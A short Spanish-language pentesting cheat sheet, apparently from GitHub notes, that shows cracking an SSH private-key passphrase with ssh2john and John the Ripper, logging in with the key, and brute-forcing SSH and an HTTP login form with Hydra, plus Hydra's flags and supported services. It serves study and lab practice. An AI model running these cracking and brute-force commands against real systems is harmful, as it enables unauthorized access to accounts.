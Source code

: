 [TUTORIAL](https://vk9-sec.com/ssh2john-how-to/)

Necesitamos un **id_rsa** de un usuario (Llave privada), para crackear su contraseña:

```bash
ssh2john.py id_rsa > id_rsa.john

john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john
```

una vez hallada las credenciales:

```bash
chmod 600 id_rsa
```

```bash
ssh -i id_rsa stefano@192.168.0.7 -p 4655
Password: la que se encontro
```

### HYDRA

Para cracking de servicios:

- -l: usuario.
- -L: lista de usuarios.
- -P: diccionario de contraseñas.
- -V: verbose.
- -s: especificas el puerto del servicio si cambia el por defecto.
- -S: coneccion por SSL.
- -C: Esta sentencia se usa eliminando -l/-L y -p/-P ya que aquí se especifica un diccionario combo, osea que tenga tanto usuario como contraseña con el formato user:pass \[-C diccionario-combo.txt\].
- -o: output file.
- -f: cierra Hydra al encontrar la primera contraseña.
- -t: hilos para ir mas rapido.

```bash
hydra -l root -P /path/rockyou -s 2222 ssh -V -t 4
```

```bash
hydra -l admin -P /usr/share/seclists/Passwords/10k_most_common.txt <targetip> http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 16
```

servicios soportados:

```bash
adam6500 
afp
asterisk
cisco
cisco-enable
cvs
firebird
ftp
ftps
http[s]-{head|get|post}
http[s]-{get|post}-form
http-proxy
http-proxy-urlenum
icq
imap[s]
irc
ldap2[s]
ldap3[-{cram|digest}md5][s]
mssql
mysql(v4)
```